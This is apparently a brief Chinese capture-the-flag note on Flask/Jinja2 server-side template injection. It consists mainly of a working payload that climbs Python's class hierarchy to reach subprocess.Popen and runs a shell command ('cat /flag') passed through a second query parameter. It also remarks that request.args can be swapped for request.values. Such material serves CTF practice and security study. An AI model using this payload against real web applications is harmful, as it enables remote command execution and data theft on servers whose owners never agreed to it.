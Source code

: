 # 知识点
requests.args.a可以替换成requests.values.a
# 思路
```python
?name={{().__class__.__mro__[1].__subclasses__()[407](request.values.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag
```

